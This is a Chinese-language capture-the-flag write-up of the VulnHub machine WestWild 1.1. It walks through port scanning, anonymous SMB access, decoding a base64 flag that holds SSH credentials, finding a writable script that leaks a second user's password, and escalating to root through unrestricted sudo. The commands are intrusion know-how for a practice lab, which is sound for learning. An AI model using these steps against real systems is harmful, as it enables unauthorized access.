 # WestWild: 1.1

2024-6-13 https://www.vulnhub.com/entry/westwild-11,338/

difficulty: intermediate

## IP

192.168.5.38

## Scan

Open Port -> 22,80,139,445

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 6fee95919c62b214cd630a3ef8109eda (DSA)
|   2048 104594fea72f028a9b211a31c5033048 (RSA)
|   256 9794178618e28e7a738e412076ba5173 (ECDSA)
|_  256 2381c776bb3778ee3b73e255ad813272 (ED25519)
80/tcp  open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
```

先看 smb 是否有映射信息，smbclient -L //192.168.5.38/ :

```
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
wave            Disk      WaveDoor
IPC$            IPC       IPC Service (WestWild server (Samba, Ubuntu))

Reconnecting with SMB1 for workgroup listing.
```

查看 wave:

```
smbclient  //192.168.5.38/wave/ -U anonymous -N

FLAG1.txt                           N       93  Tue Jul 30 10:31:05 2019
message_from_aveng.txt              N      115  Tue Jul 30 13:21:48 2019
```

发现第一个 flag:

```
cat FLAG1.txt
RmxhZzF7V2VsY29tZV9UMF9USEUtVzNTVC1XMUxELUIwcmRlcn0KdXNlcjp3YXZleApwYXNzd29yZDpkb29yK29wZW4K

进行base64解码：
Flag1{Welcome_T0_THE-W3ST-W1LD-B0rder}
user:wavex
password:door+open
```

```
cat message_from_aveng.txt
Dear Wave ,
Am Sorry but i was lost my password ,
and i believe that you can reset  it for me .
Thank You
Aveng
```

发现两个用户名 wave 和 aveng

直接 ssh 登陆，登陆成功。

查看 .viminfo 看看历史操作记录,没发现重点信息。

试着查找下此用户的可写文件：

```
find / -writable -type f 2>/dev/null | grep -v '/sys' | grep -v '/proc'

/usr/share/av/westsidesecret/ififoregt.sh

cat /usr/share/av/westsidesecret/ififoregt.sh

figlet "if i foregt so this my way"
echo "user:aveng"
echo "password:kaizen+80"
```

尝试 su aveng 切换用户，sudo -l 显示所有 ALL，可以直接提权到 root：

```
aveng@WestWild:~$ sudo -l
Matching Defaults entries for aveng on WestWild:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User aveng may run the following commands on WestWild:
    (ALL : ALL) ALL
aveng@WestWild:~$ sudo su
root@WestWild:/home/aveng# cd /root
root@WestWild:~# ls
FLAG2.txt
root@WestWild:~# cat FLAG2.txt
Flag2{Weeeeeeeeeeeellco0o0om_T0_WestWild}

Great! take a screenshot and Share it with me in twitter @HashimAlshareff

```
